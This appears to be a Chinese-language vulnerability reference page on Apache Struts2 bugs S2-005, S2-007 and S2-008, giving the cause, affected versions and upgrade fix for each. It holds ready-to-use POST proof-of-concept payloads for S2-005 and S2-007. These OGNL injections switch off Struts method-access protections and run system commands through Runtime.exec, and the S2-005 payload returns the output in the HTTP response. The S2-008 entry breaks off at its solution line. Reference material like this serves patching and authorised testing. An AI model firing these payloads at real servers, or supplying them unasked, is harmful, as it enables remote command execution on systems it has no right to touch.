 > Problem:
> 
> S2-005是由于官方在修补S2-003不全面导致绕过补丁造成的。我们都知道访问Ognl的上下文对象必须要使用#符号，S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023或者8进制\43绕过。
> 
> S2-005则是绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成漏洞。
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.1.8.1
> 
> Solution:
> 
> Upgrade to Apache Struts version 2.2.1

###### POST POC

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'whoami\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

---

#### S02-007

> Problem:
> 
> 当配置了验证规则 <ActionName>-validation.xml 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.2.3
> 
> Solution:
> 
> Upgrade to Apache Struts version 

###### POST POC

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("whoami")) + '
```

---

#### S02-008 无回显

> Problem:
> 
> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。
> 
> Affected Software: 
> 
> Struts 2.1.0 - Struts 2.3.1
> 
> Solution:
> 
> Upgrade to Apache Struts version 
